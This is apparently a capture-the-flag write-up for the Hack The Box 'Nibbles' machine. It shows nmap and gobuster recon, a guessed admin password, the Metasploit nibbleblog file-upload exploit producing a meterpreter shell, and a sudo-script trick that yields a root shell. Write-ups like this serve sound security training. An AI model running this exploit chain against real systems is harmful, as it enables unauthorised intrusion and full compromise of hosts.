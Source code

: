 # Nibbles box

Address: `10.10.10.75`

## Initial scan

```sh
nmap -A -T5 -p- 10.10.10.75
```

### Nmap results

```
Starting Nmap 7.70 ( https://nmap.org ) at 2020-04-10 03:40 EDT
Warning: 10.10.10.75 giving up on port because retransmission cap hit (2).
Nmap scan report for 10.10.10.75
Host is up (0.20s latency).
Not shown: 65533 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 c4:f8:ad:e8:f8:04:77:de:cf:15:0d:63:0a:18:7e:49 (RSA)
|   256 22:8f:b1:97:bf:0f:17:08:fc:7e:2c:8f:e9:77:3a:48 (ECDSA)
|_  256 e6:ac:27:a3:b5:a9:f1:12:3c:34:a5:5d:5b:eb:3d:e9 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
Aggressive OS guesses: Linux 3.12 (95%), Linux 3.13 (95%), Linux 3.16 (95%), Linux 3.2 - 4.9 (95%), Linux 3.8 - 3.11 (95%), Linux 4.8 (95%), Linux 4.4 (95%), Linux 4.9 (95%), Linux 3.18 (95%), Linux 4.2 (95%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 8080/tcp)
HOP RTT       ADDRESS
1   199.01 ms 10.10.14.1
2   199.09 ms 10.10.10.75

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 228.39 seconds
```

## Result analysis

Open port on 80 and 22. Let's try opening the port 80 in a web browser. If that doesn't work we will try the SSH port.

## Port 80 recon

Going into the webpage for port 80, we find that there is only a simple hello world text inside.
Browsing the source code however, we see that there is a comment in HTML

```html
<!-- /nibbleblog/ directory. Nothing interesting here! -->
```

so obviously, we navigate to that subdirectory : `10.10.10.75:80/nibbleblog`

So far nothing out of the obvious.

## Gobuster

Using gobuster on the nibbleblog website:

```sh
gobuster -u http://10.10.10.75/nibbleblog -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```

Result: 

```
Gobuster v1.4.1              OJ Reeves (@TheColonial)
=====================================================
=====================================================
[+] Mode         : dir
[+] Url/Domain   : http://10.10.10.75/nibbleblog/
[+] Threads      : 10
[+] Wordlist     : /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Status codes : 301,302,307,200,204
=====================================================
/content (Status: 301)
/themes (Status: 301)
/admin (Status: 301)
/plugins (Status: 301)
/README (Status: 200)
/languages (Status: 301)
=====================================================
```

From here, we navigate to the admin panel

## Admin password cracking
Trying simple `admin` and `nibbles` password combination worked.

## Admin panel
Looking inside settings, we see that this nibbleblog is running on a vulnerable version of nibbleblog. Let's attempt to do some kind of file upload within the nibbleblog

## Metasploit
Using metasploit, we find that there is a nibbleblog module avaialble for use

```sh
msfconsole
use exploit/multi/http/nibbleblog_file_upload
set PASSWORD nibbles
set USERNAME admin
set TARGETURI /nibbleblog/
set RHOST 10.10.10.75
exploit
```

And it gave us a meterpreter shell

## Meterpreter

```sh
getuid # gives us back a nibbler user
sysinfo
# Computer    : Nibbles
# OS          : Linux Nibbles 4.4.0-104-generic #127-Ubuntu SMP Mon Dec 11 12:16:42 UTC 2017 x86_64
# Meterpreter : php/linux
```

## Priv Esc

Using the meterpreter shell, let's see which commands we can run as sudo
```sh
sudo -l
# Matching Defaults entries for nibbler on Nibbles:
#     env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin
# User nibbler may run the following commands on Nibbles:
#     (root) NOPASSWD: /home/nibbler/personal/stuff/monitor.sh
```

We see that there's a specific file `/home/nibbler/personal/stuff/monitor.sh` that can be run as root

Let's see if that file exists --- And No. It doesn't.

And going into the `/home/nibbler` directory, the folder personal doesn't even exist. So instead, let's try creating those folders and a shell script to help us get a root shell

```sh
mkdir personal
cd personal
mkdir stuff
cd stuff
echo "bash -i" > monitor.sh
whoami # root
cd /root
cat root.txt
```
